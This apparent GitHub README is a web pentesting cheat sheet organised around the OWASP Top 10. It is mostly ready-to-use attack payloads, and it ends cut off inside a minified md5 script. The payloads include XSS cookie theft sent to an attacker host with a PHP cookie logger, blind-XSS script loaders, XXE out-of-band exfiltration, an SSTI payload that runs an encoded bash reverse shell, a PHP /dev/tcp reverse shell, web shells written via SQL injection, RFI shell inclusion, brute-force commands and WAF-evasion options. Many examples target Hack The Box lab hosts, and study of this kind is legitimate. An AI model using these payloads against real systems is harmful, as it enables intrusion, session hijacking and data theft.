

# Top-10-OWASP-CHEATSHEET and more
[Top 10 official OWASP](https://owasp.org/www-project-top-ten/)


Pentest processing:  


## *Top 0./ Web Reconnaissance*

**Active Reconnaissance**   

| Technique            | Tools                                      | Risk of Detection                              |
|----------------------|--------------------------------------------|------------------------------------------------|
| Port Scanning        | Nmap, Masscan, Unicornscan                 | High: Direct interaction with the target can trigger intrusion detection systems (IDS) and firewalls. |
| Vulnerability Scanning| Nessus, OpenVAS, Nikto                    | High: Vulnerability scanners send exploit payloads that security solutions can detect. |
| Network Mapping       | Traceroute, Nmap                          | Medium to High: Excessive or unusual network traffic can raise suspicion. |
| Banner Grabbing       | Netcat, curl                              | Low: Banner grabbing typically involves minimal interaction but can still be logged. |
| OS Fingerprinting     | Nmap, Xprobe2                             | Low: OS fingerprinting is usually passive, but some advanced techniques can be detected. |
| Service Enumeration   | Nmap                                       | Low: Similar to banner grabbing, service enumeration can be logged but is less likely to trigger alerts. |
| Web Spidering         | Burp Suite Spider, OWASP ZAP Spider, Scrapy | Low to Medium: Can be detected if the crawler's behaviour is not carefully configured to mimic legitimate traffic. |

**Passive Reconnaissance**  

| Technique             | Tools                                                  | Risk of Detection                                        |
|-----------------------|--------------------------------------------------------|----------------------------------------------------------|
| Search Engine Queries | Google, DuckDuckGo, Bing, Shodan                       | Very Low: Search engine queries are normal internet activity and unlikely to trigger alerts. |
| WHOIS Lookups         | whois command-line tool, online WHOIS lookup services | Very Low: WHOIS queries are legitimate and do not raise suspicion. |
| DNS                   | dig, nslookup, host, dnsenum, fierce, dnsrecon         | Very Low: DNS queries are essential for internet browsing and are not typically flagged as suspicious. |
| Web Archive Analysis  | Wayback Machine                                         | Very Low: Accessing archived versions of websites is a normal activity. |
| Social Media Analysis | LinkedIn, Twitter, Facebook, specialised OSINT tools  | Very Low: Accessing public social media profiles is not considered intrusive. |
| Code Repositories     | GitHub, GitLab                                         | Very Low: Code repositories are meant for public access, and searching them is not suspicious. |

**WHOIS**  

WHOIS is designed to access databases that store information about registered internet resources. WHOIS can also provide details about IP address blocks and autonomous systems.   
He can be useful for `Phishing Investigation`, `Malware Analysis`, `Threat Intelligence Report`,...   
```bash
whois facebook.com
```

**DIG**  
The dig command (Domain Information Groper) is a versatile and powerful utility for querying DNS servers and retrieving various types of DNS records.  
Here some basics commands :  
| Command                                | Description                                                            |
|----------------------------------------|------------------------------------------------------------------------|
| `dig domain.com`                       | Performs a default A record lookup for the domain.                     |
| `dig domain.com A`                     | Retrieves the IPv4 address (A record) associated with the domain.      |
| `dig domain.com AAAA`                  | Retrieves the IPv6 address (AAAA record) associated with the domain.   |
| `dig domain.com MX`                    | Finds the mail servers (MX records) responsible for the domain.        |
| `dig domain.com NS`                    | Identifies the authoritative name servers for the domain.             |
| `dig domain.com TXT`                   | Retrieves any TXT records associated with the domain.                  |
| `dig domain.com CNAME`                 | Retrieves the canonical name (CNAME) record for the domain.            |
| `dig domain.com SOA`                   | Retrieves the start of authority (SOA) record for the domain.          |
| `dig @1.1.1.1 domain.com`              | Specifies a specific name server to query; in this case 1.1.1.1.       |
| `dig +trace domain.com`                | Shows the full path of DNS resolution.                                 |
| `dig -x 192.168.1.1`                  | Performs a reverse lookup on the IP address 192.168.1.1 to find the associated host name. |
| `dig +short domain.com`                | Provides a short, concise answer to the query.                         |
| `dig +noall +answer domain.com`        | Displays only the answer section of the query output.                  |
| `dig domain.com ANY`                   | Retrieves all available DNS records for the domain.                    |

**DNS Brut forcing**  
You can brut force with ffuf and seclist but here some commands with DNSENUM:  
```bash
dnsenum --enum inlanefreight.com -f  /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```


## *Top 1./ Broken acces control*
### IDOR (insecure direct object reference):  
IDOR are usually used in chain attack with XEE, or HTTP verb tampering,...  

Indentify IDOR:  
- In URL parameters & APIs  
- In AJAX Calls  
- By understanding reference hashing/encoding  
- By comparing user roles  
  ```bash
  #change parameters post, change id, try and see the response of server 200,404,302 
  http://example.com/user/"35" or http://example.com/user/file.php?image="4",...
  ```
Sometimes iud are encrypted like base64, md5,...    
You can detect how is encrypted if is in frontend code and Burpsuite.  
```bash
#test
echo -n "user1" | md5sum
echo -n "user2" | base64
#example script bash
for i in {1..10}; do
    for hash in $(echo -n $i | base64 ); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

  ## *Top 2./ Cryptographic failures*
  - poor Cryptographic implementation, deprecied or insecure algorithm
  - PNRG (Pseudo Random Génerator Number) sometime algorithm use to generate a random number for crypto is predictably (like random in python)
  - Algorithms of simetric encryption :
  ```test
  AES 128,192,256 bits (secure, industrie standard)
  RC6 (secure, but not a industrie standard)
  DES 56bits key too small
  3DES deprecied and replace by AES
  RC4 not secure but fast
  RC5 not secure but fast
  ```
  - Algorithms of asimetric encryption :
  ```test
  RSA 1024,2048,3072,4096bits (1024 not secure)
  Diffie hellman (only use for exchange key)
  ```
  - Algorithms of hashage :
  ```test
  MD2, MD4, MD5, MD6 (not secure depricied)
  SHA-1 (not secure depricied)
  SHA-2 (224,256,384,512) secure
  SHA-3 secure
  RIPEMD (128,160,256,320) secure use in bitcoin
  bcrypt: Variable-length hash, typically 22-34 characters long, with a salt value and a work factor (iterations).
  PBKDF2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  Argon2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  ```
  - Algorithms of HMAC :
  ```bash
  HS256, HS384 and HS512
  ```
  ## *Top 3./ Injection breach*
Before starting to try some payload you need to understand how web application work.   
You need to enumerate:
  - All users input
  - Url parameters
  - Variable like *GET*, *POST*, *COOKIES*
  - configuration files
  - Query parameters in URL script or application
  - View source code to know the version of OS, server SQL, server web.
  - 
Analyse every error message, its a good practise for what can you do and what can't you do 
### Command injection
Try this basic caracters and add command like `dir` or `cat /etc/passwd`.
```text
%09
${IFS}
;
%3b
\n
%0a
|
%7c
&
%26
&&
%26%26
||
%7c%7c
''
%60%60
$(...)
%24%28%29
`...`
'''
%60%60%60
```
You can find payloads of Windows and linux with file uploads of this repositorie
### XSS (Cross Site Scripting)
Xss can be every where, in application, in html, wrappers, in file, postmessage, etc...   
All payload or informations is here [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

Main types of XSS :

| Types              | Describes                                                                                               |
|-------------------------------------|---------------------------------------------------------------------------------------------------------------|
| Stored (Persistent) XSS       | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)                                              | 
| Reflected (Non-Persistent) XSS                | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)                                               |
| DOM-based XSS                  | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)  |

**important payload**
```html
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
document.getElementById("todo").innerHTML = "New Text"
document.getElementsByTagName('body')[0].innerHTML = "New Text"
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
```


**XSS Discovery**  
you can use automated tools like XSS Strike, Brute XSS, XSSer.
```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```
or manual discover
```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
<script>debugger;</script>
```

**Dom based XSS**
```html

#">
```

**Blind XSS**   
A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to  
Detect blind XSS :
```html
<script src="http://OUR_IP:OUR_PORT/username"></script> <!-- username here to know username field is vulnerable -->
'><script src=http://OUR_IP:OUR_PORT/></script>
"><script src=http://OUR_IP:OUR_PORT></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP:OUR_PORT\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP:OUR_PORT");a.send();</script>
<script>$.getScript("http://OUR_IP:OUR_PORT")</script>
```
Listen with netcat or php and see if you have a request.

**Hijacking sessions**  
Create a script.js and a index.php in new folder.  
script.js :  
```javascript
document.location='http://OUR_IP:OUR_PORT/index.php?c='+document.cookie;
new Image().src='http://OUR_IP:OUR_PORT/index.php?c='+document.cookie;
```
index.php :  
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Now listen with netcat or php and uploads this payload  
XSS :  
```html
<script src=http://OUR_IP:OUR_PORT/script.js></script>
```

**Library XSS**  
static-eval sandbox : 
[licenciaparahackear_static_eval_escape](https://licenciaparahackear.github.io/posts/static-eval-sandbox-escape-original-writeup/)
```javascript
(function({e}){return e.constructor})({e:''.sub})('process.mainModule.require(\"child__process\").exec(\"cat /etc/passwd\")
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat /app/flagn2VN4\").toString())')()
```


### SQL Injection    
Its time to SQLI Suuuuuuuuuuuuuuuuuu !!!!!!!!!!!  
Before starting here some links and images useful : [Advance Payload SQLI Github](https://github.com/payloadbox/sql-injection-payload-list)  


Each following payload is an example you need modify them before use.   

**Payload detection**  
```SQL
' OR 1=1 --
' OR 'a'='a' --
--
')--
'
"
#
;
)
```
**Union Based Payload**  
```SQL
' UNION SELECT 1,2 --
' UNION SELECT 1,2,3 --
' UNION SELECT 1,2,3,4 --
' UNION select 1,@@version,3,4-- -
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA--
' UNION select 1,database(),2,3-- -
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
' UNION select 1, username, password, 4 from dev.credentials-- -
' UNION SELECT 1, user(), 3, 4-- -
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
' UNION SELECT 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
' UNION SELECT "",'<?php system($_GET[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
**Boolean Based Payload**
```SQL
' UNION SELECT 1,2,3 where database() like 's%';--
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';--
' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%';--
```
**Time Based**
```SQL
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
**SQL MAP**  
Its tool to automated SQLI  
here some option useful:  

| Option          | Describes                                                                                                     |
|-----------------|---------------------------------------------------------------------------------------------------------------|
| -T users        | specifically target a table named users in the database                                                        |
| -D usersdb      | specifically target as databased named usersdb                                                      |
| -C password      | specifically target as columns named password                                                     |
| --batch         | The --batch option makes SQLMap run automatically without asking for any confirmation prompts. It’s useful for scripting or running the tool in automated mode.   |
| --dump          | This option tells SQLMap to dump all the data from the target table (users). It will try to extract all rows and columns from the specified table.   |
| --risk=3        | The --risk option specifies the risk level of the tests, ranging from 1 to 3. Level 3 is the most aggressive, and SQLMap will perform high-risk, intrusive tests that may cause changes to the application.   |
| --level=5       | This option defines the intensity of the tests. A level of 5 means that SQLMap will perform the most aggressive and comprehensive tests to find SQL injection vulnerabilities.   |
| --prefix="%'))" | add prefix before payloads   |
| --union-cols=17 | If we knows exect number of columns   |
| --banner | Database version banner   |
| --current-user | Current user name   |
| --current-db | Current database   |
| --is-dba | Checking if the current user has DBA (administrator) rights   |
| --tables | enumerates tables   |
| --schema | enumerates schemas   |
| --search | his option enables us to search for identifier names by using the LIKE operator   |
| --random-agent | randomiz user agent   |

This table lists various **tamper scripts** available in SQLMap, which are used to modify SQL injection payloads to bypass security filters such as firewalls or WAFs.  
Example :  `--tamper=between,0eunion`  

| **Tamper Script**           | **Description**                                                                                             |
|-----------------------------|-------------------------------------------------------------------------------------------------------------|
| **0eunion**                 | Replaces instances of `UNION` with `e0UNION`. Used to evade filters that block the `UNION` keyword.          |
| **base64encode**            | Base64-encodes all characters in the payload. Useful to bypass filters that block regular SQL keywords.     |
| **between**                 | Replaces `>` with `NOT BETWEEN 0 AND #` and `=` with `BETWEEN # AND #`. Helps evade detection of specific operators. |
| **commalesslimit**          | Replaces MySQL `LIMIT M, N` with `LIMIT N OFFSET M`. Bypasses filters that block `LIMIT` in the standard format. |
| **equaltolike**             | Replaces `=` with `LIKE`. Useful for bypassing filters that block `=` but allow `LIKE`.                    |
| **halfversionedmorekeywords** | Adds a versioned comment (`/*#version#*/`) before each SQL keyword. Helps evade detection systems by obfuscating keywords. |
| **modsecurityversioned**    | Encloses the entire SQL query in a versioned comment. A technique to bypass ModSecurity or similar WAFs.     |
| **modsecurityzeroversioned** | Similar to `modsecurityversioned`, but wraps the query in a zero-versioned comment.                         |
| **percentage**              | Adds a percentage sign (`%`) in front of each character in the SQL query (e.g., `SELECT` -> `%S%E%L%E%C%T`).  |
| **plus2concat**             | Replaces the plus (`+`) operator with the `CONCAT()` function (specific to MS SQL).                        |
| **randomcase**              | Replaces each keyword character with random case (e.g., `SELECT` -> `SEleCt`).                              |
| **space2comment**           | Replaces the space character (` `) with a comment (`/*`). Used to confuse filters and make the query harder to detect. |
| **space2dash**              | Replaces the space character (` `) with a dash comment (`--`) followed by a random string and newline (`\n`). |
| **space2hash**              | Replaces spaces with a pound (`#`) character followed by a random string and newline (`\n`). Specific to MySQL. |
| **space2mssqlblank**        | Replaces spaces with a random blank character from a set of valid alternate characters (specific to MS SQL). |
| **space2plus**              | Replaces spaces with the plus (`+`) symbol.                                                                |
| **space2randomblank**       | Replaces spaces with a random blank character from a set of valid alternate characters.                    |
| **symboliclogical**         | Replaces logical operators (`AND`, `OR`) with their symbolic counterparts (`&&`, `||`).                    |
| **versionedkeywords**       | Encloses each non-function keyword in a versioned comment (`/*#version#*/`).                               |
| **versionedmorekeywords**   | Encloses each keyword with a versioned comment (`/*#version#*/`).                                          |


Example code :  
```bash
sqlmap -u 'http://94.237.52.110:37168/case5.php?id=1' --level=5 --risk=3 -T flag5 --batch --dump -v
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
sqlmap -u "http://www.example.com/?id=1" --search -T user
sqlmap -r req.txt
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
sqlmap http://94.237.52.110:37168/case8.php --data 'id=1&t0ken=9XinKaZ3X99lxoZyRrHjzUCFepeu5JBwiNr3rq1ADeQ' --cookie='PHPSESSID=j0vf2nima13fs969k7rnr85ijb' --csrf-token='t0ken'N
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

  ## *Top 4 non-secure application*
  ## *Top 5 security misconfiguration*
  ### **XEE (XML External Entity)**
Vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing.  
To identify XEE finding web pages that accept an XML or JSON user input with Burp  

**Note**: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

**Basic Payloads:**
```xml
<!ENTITY xxe SYSTEM "http://localhost/email.dtd">
<!ENTITY xxe SYSTEM "file:///etc/passwd">
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
**ByPass with CDATA:**
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

  ## *Top 6 composant vulnerability*
  ## *Top 7 authentification failure*
  Part of web application where authentification can be attack. (ex: login forms)  
  
    

Sometimes you can bypass by transforming `HTTP/1.1 302 FOUND` response request > `HTTP/1.1 200 OK`  
Or remove value in Location request response  

 ### **Basic BrutForce**  
  You can brutforce user, password, 2FA, session token, Cookies and see what the server return in the error message.  
  ```bash
  ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://example.com/login.php -X POST -H 'Content-type: application/w-xxx-form-urlencoded' -d 'username=FUZZ&password=invalid' -fr 'Invalid user'
  ffuf -w /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -u http://example.com/login.php -X POST -H 'Content-type: application/w-xxx-form-urlencoded' -d 'username=test&password=FUZZ' -fr 'Invalid password'
  ffuf -w nb.txt -u http://example.com/2FA.php -X POST -H 'Content-type: application/w-xxx-form-urlencoded' -d 'otp=FUZZ' -fr 'Invalid 2FA'
  ffuf -w tokens.txt -u http://example.com/reset_password.php?token=FUZZ -fr "The provided token is invalid"
  ```
 

  Test default credential : [CIRT.net](https://www.cirt.net/passwords)
  
  ## *Top 8 failure integrity data*
  ## *Top 9 journalisation defect*
  ## *Top 10./ SSRF (Server-Side Request Forgery), SSTI (Server-Side Template Injection), SSI (Server-Side Includes)*
  **A chercher dans des boutons qui affichent directement un retour sans charger la page ou quand le site pense faire une requete vers une autre site**
### **SSRF**
Permet sur une application web (API) de faire une requete avec le server. (like preview button)
Une fois la faille SSRF découverte on peut tester de faire des requetes GEt ou POST comme :
```bash
example=http://127.0.0.1:<port>/
example=file:///etc/passwd
example=gopher://localhost/admin
```
utiliser FUFF pour le scan de port, ou scan d'endpoint 
```bash
ffuf -w nb.txt -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://127.0.0.1:FUZZ/"
ffuf -w /usr/shar/wordlists/seclists/Discovery/Web-content/burp -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://example.com/FUZZ.php"
```
-------------------------
### **SSTI**
Payload principal a tester pour connaître le moteur de template:  


  
Lien utile :[SSTI Payloads +++](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)  
  
SSTI avec Jinja2 si {{7*'7'}}=777777:  
```python
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat\x20/backend/requirements.txt').read()}}
{{self.__init__.__globals__.__builtins__.__import__('os').popen('echo\x20"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OS80NDQ0IDA+JjEK"\x20|\x20base64\x20-d\x20|\x20bash').read()}}
```
SSTI avec TWIG si {{7*'7'}}=49:
```php
{{_self}}
{{"/etc/passwd"|file_excerpt(1,-1)}}
{{['id'] | filter('system')}}
```
## *Top 11./ LFI (Local File Inclusion) and RFI (Remote File Inclusion)*
### **A chercher un peu partout dans les parametres GET et POST**
Test de payload pour la découverte d'une LFI:  
```bash
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://example.com/index.php?language=FUZZ
```
Classic Bypass LFI:
```bash
....//
..././
....\/
....////
#url encode sur burpsuite
./language/../../../
```
### **PHP filter**    
```bash
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../etc/passwd
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id #echo '<?php system($_GET["cmd"]); ?>' | base64 = PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```
### **RFI**  
Remote file inclusion, allows the inclusion of remote URLs  
You can enumerate local port like SSRF:   
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:<LISTENING_PORT>
```
Gaining remote code execution by including a malicious script that we host
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
## *Top 12./ File upload attack*  

### ***Potential Attack	|  File Types***   
XSS	              |  HTML, JS, SVG, GIF  
XXE/SSRF	        |  XML, SVG, PDF, PPT, DOC  
DoS	              |  ZIP, JPG, PNG 

Link:  
[List All Content-type](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)  
[File signatures/Magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)  
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)   

### **ByPass Client validation**  
Upload a real image and modified request in Burp with payload and file name (image.png > shell.php)  
Or just delete html code who calls the sanytasing function.   

### **Bypass Whithlist and Blacklist**   
You need to test wich .extension backend accept   
You can add prefix and suffix in Burp Intruder (ex: png.phar, php7.png, php.jpeg, ...) 
```bash
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

### **Bypass Magic Bytes**
Just add BytesFile (ex: GIF8) before your payload to trick the back end server its a gif or png. 

### **Payload**  
- if server web use PHP
```php
<?php system($_REQUEST['cmd']; ?>
#/shell.php?cmd=id
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'"); ?>
#reverse shell
```
- if server web use .NET
```asp
<% eval request('cmd') %>
#/shell.net?cmd=id
```
## *Top 13./ Session Security*
Concept of Hijacking is to steals Session Indentification, with the most common method:  
- Passive Traffic Sniffing
- Cross-Site Scripting (XSS)
- Browser history or log-diving (CSRF)
- Read access to a database containing session information

If you have an SSRF you can you CSRF with the server authentification

### **Traffic Sniffing**   
Work if you are in local area, caputre traffic HTTP, FTP, SSH,... with WIRESHARK  
```bash
sudo -E wireshark
```
- capture with tun0
- filter Http for sess authentification
- Edit -> Find Packet -> string -> Packet bytes
- name parameter you want sniff

### **Database**  
Steal php sessid here `/var/lib/php/sessions/` or `find / -name sessions -type d 2>/dev/null`  
Steal JAVA sessid TOMCAT `find / -name SESSIONS.ser -type f 2>/dev/null` more information : [tomcat_apache](https://tomcat.apache.org/tomcat-6.0-doc/config/manager.html)  
Steal .NET seesid `aspnet_wp.exe` more information : [ASP.NET](https://www.c-sharpcorner.com/UploadFile/225740/introduction-of-session-in-Asp-Net/)  
If you have an SQLI you can search a table with sessid

### **CSRF**  
Possible if you have all the parameters required for the targeted request, and the application's session management is solely based on HTTP cookies, which are automatically included in browser requests.  
Create a maliciouse request HTML and send it at the victim who is already logged into the application web.  

**Payload exemple**  
Before host webpage
```bash
python3 -m http.server 8000
```
```HTML
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```
for use md5 in script.
```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-72252197